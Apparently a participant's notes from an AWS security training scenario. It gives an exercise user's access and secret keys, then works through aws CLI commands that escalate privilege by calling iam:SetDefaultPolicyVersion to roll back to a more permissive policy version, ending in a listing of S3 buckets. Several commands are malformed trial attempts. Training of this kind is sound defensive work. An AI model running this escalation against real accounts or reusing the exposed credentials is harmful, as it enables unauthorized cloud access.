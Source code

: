 Scenario 1

Dear Vasyl Ostapenko,
Welcome to the first task.

You are starting with a user with limited permissions. Using all your skills and knowledge, get permissions to s3 buckets list. To finalize the scenario - run command "aws s3 ls --profile your_profile_name"

Task goal: Get permissions to list s3 buckets.
Link format: https://[bucket-name].s3.[region].amazonaws.com/index.html

Resources:

IAM
S3
Credentials:

Access key: AKIA36D6ZZWU4C4HBHOR
Sekret key: FASmxfPu6tPiQlhsA7B3O0E886gHwNv0rBgcwtEr
Username: scenario1_vasyl_ostapenko

**********************************************

aws iam --profile sc1 get-user-policy --user-name scenario1_vasyl_ostapenko --policy-name SetDefaultPolicyVersion

{
    "UserName": "scenario1_vasyl_ostapenko",
    "PolicyName": "SetDefaultPolicyVersion",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Sid": "IAMPrivilegeEscalationByRollback",
                "Effect": "Allow",
                "Action": "iam:SetDefaultPolicyVersion",
                "Resource": "arn:aws:iam::820604685737:policy/policy_scenario1_vasyl_ostapenko"
            }
        ]
    }
}

aws iam --profile sc1 get-user-policy --user-name scenario1_vasyl_ostapenko --policy-name 

aws   iam --profile sc1 ls s3 arn:aws:iam::820604685737:policy/policy_scenario1_vasyl_ostapenko

aws  list-policy-version iam --profile sc1 ls s3 arn:aws:iam::820604685737:policy/policy_scenario1_vasyl_ostapenko

aws s3 ls --profile sc1 list-policy-versions

aws iam  --profile sc1 get-policy-version --policy-arn arn:aws:iam::820604685737:policy/policy_scenario1_vasyl_ostapenko  --version-id v1

aws iam  --profile sc1 get-policy-version --policy-arn arn:aws:iam::820604685737:policy/policy_scenario1_vasyl_ostapenko  --version-id v5

aws iam set-default-policy-version --policy-arn arn:aws:iam::820604685737:policy/policy_scenario1_vasyl_ostapenko --version-id v5 --profile sc1

aws s3 ls --profile sc1

 aws s3 ls --profile sc1
2021-12-17 20:46:04 gameday-dashboard
2021-12-17 20:54:57 sc2-government-data
2020-01-23 13:41:17 simplejspwebapp
2021-11-09 14:11:06 startermk1
2021-12-17 20:46:04 templates-hackaton-notify

https://gameday-dashboard.s3.eu-central-1.amazonaws.com/index.html

aws configure set aws_access_key_id default_access_key
















